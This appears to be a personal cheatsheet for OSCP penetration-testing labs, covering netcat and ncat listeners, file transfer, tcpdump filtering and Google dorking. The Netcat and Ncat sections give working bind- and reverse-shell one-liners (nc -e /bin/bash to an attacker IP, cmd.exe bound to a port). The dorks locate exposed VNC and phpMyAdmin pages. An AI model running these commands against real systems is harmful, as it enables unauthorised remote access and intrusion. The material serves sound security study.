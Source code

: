 # OSCP
Cheatsheet for my OSCP labs / exam.

# Index

- [Introduction](#introduction) 

# Content

### ============================================================
### Introduction
### ============================================================


### ============================================================
### Essential Tools
### ============================================================

**Netcat**  
Basics
```bash
nc -nlvp [port]          # set up listener
nc -nv [IP] [port]       # banner grabbing OR connect to remote port
```
File Transfer
```bash
nc -nlvp [port] > incoming.exe          # VIC: set up listener, direct data to incoming.exe
nc -nv [IP] [port] < /path/to/wget.exe  # ATT: push wget.exe file to VIC
```
Bind Shell: bind executable (e.g. cmd.exe) to a local port (typically victim machine)
```bash
nc -nlvp [port] -e cmd.exe  # VIC: set up listener + bind cmd.exe to local port
nc -nv [VIC IP] [port]   # ATT: attacker connects and is presented with cmd prompt
```
Reverse Shell: victim box connect to attacker box
```bash
nc -nvlp [port]                       # ATT: attacker set up listener
nc -nv [ATT IP] [port] -e /bin/bash   # VIC: attacker sends reverse shell to their box
```

**Ncat**  
Ncat is an improved version of the Netcat tool, with SSL encryption + ability to whitelist access to specific IP's.

Secure Bind Shell:
```bash
ncat -lvp 4444 -e cmd.exe --allow [IP] --ssl   # Box A: set up listener, allow on connections from only IP, SSL-encrypted.
ncat -v 10.11.14.143 4444 --ssl                # Box B: connect to Box A, SSL-encrypted.
```

**Tcpdump**

Analyse traffic from file (.pcap etc.) + show data in hex and ASCII
```bash
tcpdump -nX -r filename.pcap
```

Analyse and filter traffic:
```bash
tcpdump -n src host 172.16.40.10 -r password_cracking_filtered.pcap   # src filter
tcpdump -n dst host 172.16.40.10 -r password_cracking_filtered.pcap   # dest filter
tcpdump -n port 81 -r password_cracking_filtered.pcap                 # port filter
```


### ============================================================
### Passive Info Gathering
### ============================================================

Google Hacking. More with Google Hacking Database https://www.exploit-db.com/google-hacking-database/

```bash
site:"microsoft.com" -site:"www.microsoft.com"            # list subdomains of Microsoft.com
site:"microsoft.com" filetype:ppt "penetration testing"   # list .ppt files with term "penetration testing"
intitle:"VNC viewer for Java"                             # list pages with a open VNC access pages
inurl:"/control/userimage.html"                           # list pages which contain file "/control/userimage.html"
inurl:.php? intext:CHARACTER_SETS,COLLATIONS intitle:phpmyadmin # list pages with post-authenticated db admin page.
```


